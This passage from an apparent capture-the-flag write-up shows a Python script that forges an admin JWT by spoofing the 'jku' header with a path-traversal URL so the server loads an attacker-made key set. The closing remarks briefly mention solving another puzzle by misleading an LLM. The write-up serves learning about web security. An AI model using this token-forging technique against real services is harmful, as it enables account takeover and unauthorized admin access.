 Then we simply generate our own token, replacing the JKU with our own, and gain access to the instructor account and flag! It appears both on the website when you log in, and from any `curl` where you spoof the JKU.

```python3 
from jwcrypto import jwk, jwt
import json
with open('keypair.pem', 'rb') as pemfile:
    key = jwk.JWK.from_pem(pemfile.read())


publickey = key.export(private_key=False)

jwks = {}
jwks["keys"] = [json.loads(publickey)]

with open("jwks.json", 'w') as h:
    h.write(json.dumps(jwks))

Token = jwt.JWT(header={
                "alg": "RS256",
                "jku": """http://127.0.0.1:4000/.well-known/
                jwks.json/../../load/{spoofed jwks.json link}""",
                "kid": key.key_id,},
                claims={
                    "iat": 1690384118,
                    "exp": 1690394118,
                    "role": "admin",
                    "sub": "pr4-kp_b8110d"})

Token.make_signed_token(key)
Token.serialize()
print(Token)
```

# Closing thoughts

Being the first CTF I had done, I ended up learning a lot about web security (only really for the last site, Hackscope, and attempts at Hackbakery, another puzzle). But even Xd and Gaslight were fun to solve, with just a small python program (with a graph package) and some LLM misleading.

Thinking about these puzzles for an hour or two each day was fun, so I'll definitely be doing next year's puzzle!
